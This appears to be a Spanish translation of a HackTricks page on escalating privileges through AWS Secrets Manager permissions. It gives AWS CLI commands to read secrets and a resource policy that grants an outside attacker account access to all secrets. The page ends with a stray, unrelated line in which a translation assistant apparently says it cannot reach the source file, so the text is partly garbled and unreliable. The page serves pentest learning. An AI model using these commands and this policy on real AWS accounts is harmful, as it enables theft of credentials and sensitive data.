 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Para más información sobre Secrets Manager consulta:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

Un atacante con este permiso puede obtener el **valor guardado dentro de un secreto** en AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Potential Impact:** Acceder a datos altamente sensibles dentro del servicio AWS Secrets Manager.

> [!WARNING]
> Tenga en cuenta que incluso con el permiso `secretsmanager:BatchGetSecretValue`, un atacante también necesitaría `secretsmanager:GetSecretValue` para recuperar los secretos sensibles.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Con los permisos anteriores es posible **dar acceso a otros principals/accounts (incluso externos)** para acceder al **secret**. Tenga en cuenta que para **leer secretos cifrados** con una clave KMS, el usuario también necesita tener **acceso a la clave KMS** (more info in the [KMS Enum page](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
No puedo acceder a archivos en tu sistema. Por favor pega aquí el contenido de src/pentesting-cloud/aws-security/aws-privilege-escalation/aws-secrets-manager-privesc.md que quieres que traduzca, y lo traduciré al español manteniendo exactamente la misma sintaxis Markdown/HTML.
